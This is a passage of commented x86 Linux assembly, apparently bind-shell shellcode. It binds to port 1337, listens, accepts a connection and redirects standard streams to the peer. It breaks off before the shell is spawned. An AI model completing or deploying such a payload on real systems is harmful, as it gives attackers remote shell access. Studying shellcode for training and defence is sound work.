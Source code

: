 ```nasm

    ; ---------------------------------
    ; # Setup bind
    ; socketcall
    mov al, 0x66     ; socketcall()
    mov bl, 0x2      ; SYS_BIND 

    ; setup sockaddr struct
    push edx         ; Listen on 0.0.0.0
    push word 0x3905 ; htons(1337)
    push word 0x2    ; AF_INET

    mov ecx, esp     ; Store the address that points to our struct
    
    ; Push the arguments for bind()
    push 0x10        ; Length of __SOCK_SIZE__ which is 16 (0x10 in hex)
    push ecx         ; Points to our sockaddr_in struct
    push edi         ; Contains our file descriptor

    mov ecx, esp     ; Second parameter for socketcall, points to arguments required by bind()
    int 0x80         ; Tell the kernel let's go!
    
    ; --------------------
    ; # Setup listen
    ; socketcall
    mov al, 0x66     ; socketcall()
    mov bl, 0x4      ; SYS_LISTEN

    push 0x2         ; backlog, hold 2 connections in queue
    push edi         ; Our file descriptor
    mov ecx, esp     ; Second argument to socketcall() which points to the arguments for SYS_LISTEN
    int 0x80         ; Instruct the kernel to run our syscall

    ; --------------------
    ; # Setup accept
    ; socketcall
    mov al, 0x66     ; socketcall()
    mov bl, 0x5      ; SYS_ACCEPT

    ; Setup accept
    push edx         ; 0x0
    push edx         ; 0x0
    push edi         ; Our file descriptor

    mov ecx, esp     ; Second argument to socketcall() which points to the arguments for SYS_ACCEPT

    int 0x80         ; Execute
    mov edi, eax     ; $eax stores the peer's file descriptor, save it to edi

    ; --------------------
    ; # Setup dup2
    ; redirect to stdin
    mov al, 0x3f     ; syscall number dup2 63 --> 0x3f
    mov ebx, edi     ; peer's file descriptor
    mov ecx, edx     ; STDIN
    int 0x80

    ; redirect to stdout
    mov al, 0x3f
    mov cl, 0x1      ; STDOUT
    int 0x80

    ; redirect to stderr
```